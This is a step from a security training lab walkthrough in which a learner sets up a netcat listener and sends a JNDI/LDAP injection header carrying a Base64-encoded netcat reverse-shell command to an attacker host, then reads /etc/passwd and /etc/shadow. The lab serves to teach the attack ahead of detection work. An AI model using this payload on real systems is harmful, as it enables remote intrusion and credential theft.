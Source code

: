 ### Upgrade to a Reverse Shell

For this challenge you'll be following the same process with one minor modification. You need to setup a listener for the reverse shell connection and change the payload.

1.  Start by connecting to the **Ubuntu Attacker Endpoint.**
    
2.  Create a new terminal session for the netcat listener:
    
    `screen -S nc`
    
3.  Start netcat as a listener on port **7777**:
    
    `nc -lvp 7777`
    
    **Note:** Netcat (nc) is a networking utility used to establish connections. For now, you can leave that up and listening
    
    -   `-l` = listen mode
    -   `-v` = verbose
    -   `-p` = sets the port
        
4.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
5.  Time to send the upgraded payload!
    
    `curl 172.31.24.20:8080 -H 'X-Api-Version: ${jndi:ldap://172.31.24.10:1389/Basic/Command/Base64/bmMgLW52IDE3Mi4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g=}'`
    
    **Note:** The Base64 encoded string translates to: `nc -nv 172.31.24.10 7777 /bin/sh`
    
    **Analysis:** The vulnerable application is running an extremely old version of netcat susceptible to sending a shell through the netcat connection. While this works for our test environment to understand the principles of what is taking place, it will most likely fail with a production application.
    
6.  Reattach to the netcat terminal session:
    
    `screen -r nc`
    
7.  You have established a reverse shell! Now an attacker would typically perform some enumeration. Try some of these commands out to see the response:
    
    -   `uname -a`
    -   `whoami`
    -   `env`
    -   `cat /etc/passwd`
    -   `cat /etc/shadow`﻿
        

Feel free to spend a bit more time before moving on to analysis and detection. You can send different payloads by replacing the Base64 string in the curl command.

-   ﻿[CyberChef](https://gchq.github.io/CyberChef/) is a good resource to encode/decode strings.
-   You can also use Linux to:
    -   Encode: `echo -n 'string' | base64`
    -   Or Decode: `echo -n 'NDJpc3RoZWFuc3dlcg==' | base64 --decode`
        

In the next challenge, you will be performing some analysis and taking a look at a detection method.